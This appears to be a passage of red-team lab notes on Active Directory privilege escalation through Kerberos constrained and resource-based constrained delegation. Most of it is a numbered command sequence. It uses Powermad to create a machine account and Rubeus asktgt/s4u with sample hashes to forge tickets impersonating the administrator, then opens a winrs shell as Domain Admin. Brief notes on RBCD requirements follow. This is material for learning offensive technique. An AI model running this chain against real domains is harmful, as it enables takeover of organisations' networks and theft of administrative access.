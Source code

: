 1. Enumerate constrained Delgation using ADModule

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

2. Create a new machine account using powermad.ps1

. C:\AD\Tools\Powermad\Powermad.ps1 New-MachineAccount -MachineAccount studentcompX

3. On a compromised machine with constrained delegation (us-mgmt) configure RBCD

C:\AD\Tools\Rubeus.exe asktgt /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d7 4016ed51b2 /impersonateuser:administrator /domain:us.techcorp.local /ptt /nowrap

Set-ADComputer -Identity us-mgmt$ - PrincipalsAllowedToDelegateToAccount studentcompX$ -Verbose

4. Obtain a TGS/Service Ticket for us-mgmt (machine configured with Constrained Delegation) by leveraging the newly created Machine Account (studentcompx).

C:\AD\Tools\Rubeus.exe hash /password:P@ssword@123 C:\AD\Tools\Rubeus.exe s4u /impersonateuser:administrator /user:studentcompX$ /rc4:D3E5739141450E529B07469904FE8BDC /msdsspn:cifs/usmgmt.us.techcorp.local /nowrap

5. Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step

C:\AD\Tools\Rubeus.exe s4u /tgs:doIGxjCCBsKgAwIBBaEDAgEWoo... /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e9 9e74d74016ed51b2 /msdsspn:cifs/usmssql.us.techcorp.local /altservice:http /nowrap /ptt

6. Access the us-mssql using WinRM as the Domain Admin

winrs -r:us-mssql.us.techcorp.local cmd.exe



## 🧷Kerberos Resource-based Constrained Delegation

### Description

* This moves delegation authority to the resource/service administrator.
* Instead of SPNs on msDs AllowedToDelegatTo on the front end service like web service, access in this case is controlled by security descriptor of msDS AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
* That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins.

### Requirement

We need two privileges to abuse RBCD

1. Control over an object which has SPN configured or set SPN (like admin access to a domain joined machine or ability to join a machine to domain ms-DS-MachineAccountQuota is 10 for all domain users)
2. GenericAll or GenericWrite permissions over the target service or object (ACL) to configure msDS-AllowedToActOnBehalfOfOtherIdentity .

### Tool

**Find Write ACL on machines (do that with every user you own) - write on the msDS-AllowedToActOnBehalfOfOtherIdentity attribute**
